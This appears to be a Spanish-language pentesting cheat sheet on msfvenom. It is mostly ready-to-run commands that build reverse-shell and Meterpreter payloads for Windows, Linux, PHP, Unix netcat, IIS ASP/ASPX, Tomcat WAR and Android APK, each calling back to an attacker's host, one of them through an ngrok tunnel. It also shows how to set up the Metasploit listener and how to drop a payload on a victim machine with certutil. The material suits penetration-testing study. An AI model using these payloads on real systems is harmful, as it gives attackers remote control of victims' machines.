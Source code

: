 # Msfvenom 

Tags: #Msfvenom #WebDav #Tomcat 

Msfconsole: Es una utilidad de línea de comando que puede ser usada para generar y encodear payloads MSF para varios sistemas operativos, así, como servidores web. Es la combinación de dos utilidades: Msfpayload y Msfencode. Podemos utilizar Msfvenom para generar payloads maliciosos en Meterpreter que pueden ser transferidos al sistema del cliente. Una vez ejecutados, harán una conexión a nuestro payload handler y nos proveerá un acceso remoto al sistema target.  

### Windows Meterpreter

* [MsfVenom-Payload](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

```bash
❯ msfvenom -p windows/x64/shell_reverse_tcp --platform windows -a x64 LHOST=172.0.0.1 LPORT=443 -f exe -o shell.exe 

	# p = Payload
	# f = Formato
	# o = Exportar como 
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
	# platform = Plataforma a usar
	# a = Arquitectura

❯ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
❯ msfvenom -p windows/x64/shell/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f exe > shell.exe
```
### Linux Meterpreter

```bash 
# Esto funciona cuando tenemos el usuario y passwd de un usuario normal

❯ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=443 -f elf > hola.elf

	# p = Payload
	# f = Formato
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port Atacante
```

## PHP Meterpreter

```bash 
❯ msfvenom -p php/meterpreter/reverse_tcp LHOST=172.0.0.1 LPORT=4444 -f raw > cmd.php 

# Recibir la revershell con Metasploit
❯ msfconsole -q 
❯ use exploit/multi/handler
	❯ options 
	❯ set payload php/meterpreter/reverse_tcp
	❯ set LHOST 172.0.0.1
	❯ set LPORT 4444
	❯ run 
```

## Telnet 

```bash 
❯ msfvenom -p cmd/unix/reverse_netcat LHOST=172.0.0.1 LPORT=4444 R 

Nota: 
	1. Copiar todo el output que inicia con 'mkfifo' y pegarlo en la sesión de Telnet 
	2. Estar en esucha de la siguiente manera 'nc -nlvp 4444'
	3. La 'R' es opcional 
```

## IIS - WebDAV

```bash 
# Estos archivos son el equivalente de un archivo cmd.php en un servidor Apache de Linux que te crean una Revershell. Para los aspx/asp funcionan como una Revershell pero para un IIS en Windows.

❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f aspx -o reverse.aspx    # Stageless 
	# Si la maquina no es x64, podemos quitar esa parte en el payload y convertirla a x86
	# Recibiremos la Revershell con 'Netcat'

❯ msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.10.1 LPORT=443 -f exe -o reverse.exe  # Stageless  
	# Recibiremos la Revershell con 'Metasploit' usando el modulo de 'multi_handler' y nos dara una consola con 'Meterpreter'
	# Esta Revershell la transferiremos desde nuestra maquina de atacante con python3 y en la maquina victima lo descargaremos con 'Certutil.exe' en el dir 'C:\Users\Public\Downloads' para despues ejecutarlo y obtener la Revershell
	# En 'Metasploit' cuando usamos el 'multi_handler' debemos de cambiar al 'Payload' que colocamos en el comando 
	# Esto lo hacemos en las maquinas Windows  
	

❯ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f asp > shell.asp
	# p = PLayload 
	# f = Formato

❯ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.68.1 LPORT=443 -f aspx > shell.aspx
```
## Tomcat 

```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

## Android APK

```bash 
❯ msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=14015 -o msf.apk

	# p = Payload 
	# LHOST = Dominio de Ngrok
	# LPORT = Puerto de Ngrok (Se encuentra en el dominio de Ngrok)
	# o = Exportar como un 'APK'
```